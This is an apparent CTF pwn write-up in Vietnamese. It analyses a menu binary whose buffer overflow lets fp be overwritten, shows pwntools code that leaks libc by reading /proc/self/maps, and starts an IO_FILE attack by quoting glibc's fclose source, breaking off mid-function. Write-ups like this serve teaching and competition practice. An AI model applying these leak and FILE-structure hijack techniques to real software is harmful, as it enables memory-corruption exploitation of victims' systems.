 ## Analysis
- option 1 là fopen, nhưng ko mở file có 'flag'
- option 2 là fread data vào magicbuf
- option 3 thật ra là in ra magicbuf
- option 4 là fclose(fp)
- option 5 là có BOF, check ra thì sau name là fp, ta có thể overwrite fp để IO_FILE attack 

![image](https://github.com/gookoosss/CTF/assets/128712571/2b0f5819-90bb-400d-b342-c1b4e7f2fb71)


## Exploit
### Stage 1: leak libc
- đầu tiên ta leak libc bằng tệp `/proc/self/maps`
- cách này mình có wu giải thích trong 1 chall tương tự bên dưới
https://github.com/gookoosss/CTF/blob/main/PWN/lakectf/capture_the_flaaaaaaaaaaaaag.md
- trên server thì ta phải fread 2 lần mới leak được libc, lý do là 0x18F byte ko đủ để in tới libc base

```python 
p.sendlineafter(b'choice :', b'1')
p.sendlineafter(b'see :', b'/proc/self/maps')
p.sendlineafter(b'choice :', b'2')
p.sendlineafter(b'choice :', b'2')
p.sendlineafter(b'choice :', b'3')
p.recvuntil(b'\n')
libc.address = int(p.recv(8), 16)
print(hex(libc.address))
```
### Stage 2: IO_FILE attack
- đến đây mới là bước khó
- sau khi overwrite fp thì nó sẽ fclose(fp), vậy ta cần phải research fclose 

```c 
int
attribute_compat_text_section
_IO_old_fclose (_IO_FILE *fp)
{
  int status;

  CHECK_FILE(fp, EOF);

  /* We desperately try to help programs which are using streams in a
     strange way and mix old and new functions.  Detect new streams
     here.  */
  if (fp->_vtable_offset == 0)
    return _IO_new_fclose (fp);

  /* First unlink the stream.  */
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    _IO_un_link ((struct _IO_FILE_plus *) fp);

  _IO_acquire_lock (fp);
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    status = _IO_old_file_close_it (fp);
  else
    status = fp->_flags & _IO_ERR_SEEN ? -1 : 0;
  _IO_release_lock (fp);
  _IO_FINISH (fp);
  if (_IO_have_backup (fp))
    _IO_free_backup_area (fp);
  if (fp != _IO_stdin && fp != _IO_stdout && fp != _IO_stderr)
    {
```
